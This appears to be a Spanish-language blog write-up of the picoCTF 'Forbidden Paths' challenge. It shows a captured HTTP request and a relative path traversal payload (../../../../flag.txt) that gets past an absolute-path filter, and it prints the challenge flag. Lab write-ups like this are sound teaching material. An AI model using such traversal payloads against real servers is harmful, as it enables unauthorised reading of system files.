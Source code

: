 ```yaml
---
title: Forbidden Paths
date: 2025-05-13 00:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, forbidden paths, webexplotation, path transversal]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```

>Forbidden Paths
Author: LT 'syreal' Jones
Description
Can you get the flag? We know that the website files live in /usr/share/nginx/html/ and the flag is at /flag.txt but the website is filtering absolute file paths. Can you get past the filter to read the flag? Here's the website.
{: .prompt-tip }

Si capturamos el request vemos como se hace el GET
``` html
GET http://saturn.picoctf.net:50455/divine-comedy.txt HTTP/1.1
host: saturn.picoctf.net:50455
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```
Si por ejemplo enviamos divine-comedy.txt estos serían los parámetros. 
filename=divine-comedy.txt&read=

Por otro lado el ejercicio nos da una pista de la hubicación /usr/share/nginx/html/  pues dice que esta en la raiz del sistema 
/flag.txt .Si contamos hacia arriba tenemos 4 directorios hacia el raíz. 
Así que probamos a introducir en el formultario lo siguiente.  
../../../../flag.txt

flag:  **picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}**

Sanitizar tus formularios u obtendrás un clásico de vulnerabilidad path traversal.